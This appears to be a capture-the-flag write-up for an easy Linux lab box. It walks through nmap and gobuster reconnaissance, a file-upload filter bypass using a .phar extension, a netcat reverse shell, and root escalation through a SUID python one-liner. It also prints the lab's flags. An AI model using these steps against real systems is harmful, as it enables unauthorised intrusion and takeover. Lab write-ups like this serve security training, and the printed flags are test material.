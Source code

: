 
**Target IP**: `10.10.155.129`  
**Difficulty**: Easy  
**Categories**: CTF, Linux, File Upload, Privilege Escalation

Recon
---------------------------------------------------------------------------

`sudo nmap -sC -sV -p- -T4 10.10.155.129 -vv`

Output-
`
~~~~~~~~~~
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-21 19:09 IST

Scanning 10.10.155.129 [65535 ports]
Discovered open port 22/tcp on 10.10.155.129
Discovered open port 80/tcp on 10.10.155.129


PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


~~~~~~~~~~~~~~~

~~~~~~~~~~
Open ports:

- `22` – SSH
    
- `80` – Apache Web Server
~~~~~~~~~~~~~~~~

____________________________________

### Web Enumeration- Gobuster

`gobuster dir -u "http://10.10.155.129" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r`

Output-

~~~~~~~~~~~~~~~~~~~~~~~~
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.155.129
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 200) [Size: 744]
/css                  (Status: 200) [Size: 1126]
/js                   (Status: 200) [Size: 959]
/panel                (Status: 200) [Size: 732]
Progress: 8579 / 220561 (3.89%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 8589 / 220561 (3.89%)
===============================================================
Finished
===============================================================

~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~
Discovered Paths

/uploads
/css
/js
/panel

~~~~~~~~~~~

The `/panel` directory appeared to be of particular interest.

___________________________

Exploitation
-----------------------------------

### **File Upload Vulnerability in `/panel`**

- Found a file upload feature in `/panel`.
    
- Standard `.php` shells were blocked.
    
- Tried common evasion techniques like `.jpg.php`, but failed.
    
- Bypassed filter using `.phar` extension.

____________________________________

### Reverse Shell Setup

`nc -lvnp 4444`  

~~~~~~~~~~~~~~~~~~~~~~
listening on [any] 4444 ...
connect to [10.17.44.125] from (UNKNOWN) [10.10.155.129] 36698
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:21:10 up 43 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data


~~~~~~~~~~~~~~~~~~~~~~~~~

________________________________________

### User Flag
~~~~~~~~~~~~

find / -name "user.txt" 2>/dev/null
/var/www/user.txt

$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}


~~~~~~~~~~~~


Privilege Escalation
--------------------------------------

### Find unusual SUID Binary -

`$ find / -type f -perm -04000 -ls 2>/dev/null`

~~~~~~~~~~~~~~~~~~~~~
   787696     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   787234    112 -rwsr-xr-x   1 root     root         113528 Jul 10  2020 /usr/lib/snapd/snap-confine
   918336    100 -rwsr-xr-x   1 root     root         100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   787659     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   787841    428 -rwsr-xr-x   1 root     root         436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   787845     16 -rwsr-xr-x   1 root     root          14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   787467     20 -rwsr-xr-x   1 root     root          18448 Jun 28  2019 /usr/bin/traceroute6.iputils
   787290     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newuidmap
   787288     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newgidmap
   787086     44 -rwsr-xr-x   1 root     root          44528 Mar 22  2019 /usr/bin/chsh
   266770   3580 -rwsr-sr-x   1 root     root        3665768 Aug  4  2020 /usr/bin/python
   787033     52 -rwsr-sr-x   1 daemon   daemon        51464 Feb 20  2018 /usr/bin/at
   787084     76 -rwsr-xr-x   1 root     root          76496 Mar 22  2019 /usr/bin/chfn
   787179     76 -rwsr-xr-x   1 root     root          75824 Mar 22  2019 /usr/bin/gpasswd
   787431    148 -rwsr-xr-x   1 root     root         149080 Jan 31  2020 /usr/bin/sudo
   787289     40 -rwsr-xr-x   1 root     root          40344 Mar 22  2019 /usr/bin/newgrp
   787306     60 -rwsr-xr-x   1 root     root          59640 Mar 22  2019 /usr/bin/passwd
   787326     24 -rwsr-xr-x   1 root     root          22520 Mar 27  2019 /usr/bin/pkexec
       66     40 -rwsr-xr-x   1 root     root          40152 Oct 10  2019 /snap/core/8268/bin/mount
       80     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /snap/core/8268/bin/ping
       81     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /snap/core/8268/bin/ping6
       98     40 -rwsr-xr-x   1 root     root          40128 Mar 25  2019 /snap/core/8268/bin/su
      116     27 -rwsr-xr-x   1 root     root          27608 Oct 10  2019 /snap/core/8268/bin/umount
     2665     71 -rwsr-xr-x   1 root     root          71824 Mar 25  2019 /snap/core/8268/usr/bin/chfn
     2667     40 -rwsr-xr-x   1 root     root          40432 Mar 25  2019 /snap/core/8268/usr/bin/chsh
     2743     74 -rwsr-xr-x   1 root     root          75304 Mar 25  2019 /snap/core/8268/usr/bin/gpasswd
     2835     39 -rwsr-xr-x   1 root     root          39904 Mar 25  2019 /snap/core/8268/usr/bin/newgrp
     2848     53 -rwsr-xr-x   1 root     root          54256 Mar 25  2019 /snap/core/8268/usr/bin/passwd

~~~~~~~~~~~~~~~~~~~~~~~~~~


Suspicious Entry Identified:

`/usr/bin/python -rwsr-sr-x 1 root root 3665768 Aug  4  2020`

A SUID-enabled `python` binary can be used to escalate privileges.

______________________________________

### Privilege Escalation Exploit

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

Root access achieved.

~~~~~~~~~~~~
cd root

ls
root.txt

cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}

~~~~~~~~~~~~
